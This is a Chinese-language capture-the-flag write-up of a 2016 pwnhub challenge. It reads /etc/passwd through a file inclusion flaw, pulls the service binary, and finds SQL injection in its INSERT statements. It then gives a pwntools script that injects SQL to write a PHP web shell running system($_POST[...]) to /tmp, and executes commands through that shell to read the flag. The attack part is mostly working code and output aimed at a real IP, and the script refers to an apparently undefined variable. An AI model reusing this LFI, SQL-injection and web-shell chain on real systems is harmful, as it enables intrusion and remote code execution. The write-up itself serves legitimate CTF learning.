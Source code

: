 ```yaml
---
title: pwnhub_拍卖行
date: 2016-12-18 23:22:00
tags:
- pwnhub
- sqli
- pwn
categories:
- Blogs
---
```


算是第一次做pwn题，不过有点不得不说，整个题目几乎都是web思路，除了分析bin的部分需要一点儿别的知识，其余都可以web直接做，下面稍微说下吧

<!--more-->

总览整个网站，存在任意文件包含漏洞，但是整个站都是假的，没有任何功能。

`http://54.223.241.254/?page=/etc/passwd`

这里可以读任意文件
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
syslog:x:105:108::/home/syslog:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf:
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
```
但是没有任何收获，我们顺手看看`/proc/self/maps`,没有什么特别的收获，所以目光回到提示
```
 这是pwn题，不用扫。请各位大佬文明驾驶不要搅屎，给大佬递茶。
后端骄傲地采用raft支持, ctf_xinetd部署，独自完成更有趣哦 
```

那么需要既然是ctf_xinetd部署，github搜索一波，找到
`https://github.com/Eadom/ctf_xinetd`

看dockerfile
```
FROM ubuntu:14.04

RUN sed -i "s/http:\/\/archive.ubuntu.com/http:\/\/mirrors.tuna.tsinghua.edu.cn/g" /etc/apt/sources.list
RUN apt-get update && apt-get -y dist-upgrade
RUN apt-get install -y lib32z1 xinetd

RUN useradd -m ctf

COPY ./bin/ /home/ctf/
COPY ./ctf.xinetd /etc/xinetd.d/ctf
COPY ./start.sh /start.sh

RUN chmod +x /start.sh
RUN chown -R root:ctf /home/ctf
RUN chmod -R 750 /home/ctf
RUN chmod 740 /home/ctf/flag
RUN cp -R /lib* /home/ctf
RUN cp -R /usr/lib* /home/ctf
RUN mkdir /home/ctf/bin
RUN cp /bin/sh /home/ctf/bin
RUN cp /bin/ls /home/ctf/bin
RUN cp /bin/cat /home/ctf/bin

WORKDIR /home/ctf

CMD ["/start.sh"]

EXPOSE 9999
```

找到配置文件
```
service ctf
{
    disable = no
    socket_type = stream
    protocol    = tcp
    wait        = no
    user        = root
    bind        = 0.0.0.0
    server      = /usr/sbin/chroot
    server_args = --userspec=1000:1000 /home/ctf ./raft
    type        = UNLISTED
    port        = 9999
}
```

找到bin

`http://54.223.241.254/?page=/home/ctf/raft`

```
# coding=utf-8

import requests

url = "http://54.223.241.254/?page=/home/ctf/raft"

s = requests.Session()
r = s.get(url)
content = r.content

index = content.find("<!-- SUBSCRIBE SECION -->")
index2 = content.find("<!-- END SUBSCRIBE SECION -->")


f = open("raft","wb+")
f.write(r.content[index+len("<!-- SUBSCRIBE SECION -->")+2:index2])

f.close()
```

拿到bin后配个环境跑跑看
```
root@961e74e128a8:/tmp# ./raft 
==========================================
       Do you want date with Firesun?     
==========================================
Loading....... Succeed!
A date with Firesun is on sale!
```

分析bin主要是这两句
```
INSERT INTO TOKENS (TOKENS, PASSWORD) VALUES('%s', '%s')
INSERT INTO BID (TOKENS, PRICE) VALUES('%s', '%d')
```

关键是PASSWORD和PRICE都是可控值，但是PASSWORD输入为字符串，那么就存在注入，我们只要闭合insert,就可以执行任意语句。

讲道理到这里对于一个webU•ェ•*U就已经很简单了。

但是问题来了，服务端口在哪，苦寻无果，nmap一波

```
root@iZ285ei82c1Z:~# nmap -sT -Pn 54.223.241.254 -p10000-60000

Starting Nmap 6.40 ( http://nmap.org ) at 2016-12-18 16:05 CST
Nmap scan report for ec2-54-223-241-254.cn-north-1.compute.amazonaws.com.cn (54.223.241.254)
Host is up (0.035s latency).
Not shown: 49999 closed ports
PORT      STATE SERVICE
22222/tcp open  unknown
22333/tcp open  unknown

```

找到了22333就是服务端口，然后就很简单了，既然可以注入先翻翻数据库，数据库没东西，那么就写webshell。

这里碰到了nonick搅屎删文件，还强行竞争了一波杀了它的进程

```
from pwn import *
context.log_level = 'debug'

#R = process('./raft')
R = remote('54.223.241.254',22333)

R.recvuntil('A date with Firesun is on sale!\n')
dddd = '2333\');select \'<?php system($_POST["ddog"]) ?>\' into outfile \'/tmp/ddog3\';#'

R.send('bid '+q+'d'*(995-len(dddd))+'\n')
R.send('reg '+'2'*995+'\n')
R.recv()
R.interactive()
```

get flag
```
http://54.223.241.254/?page=/tmp/ddog3

ddog=cat /home/ctf/this-is-real-flag000
```
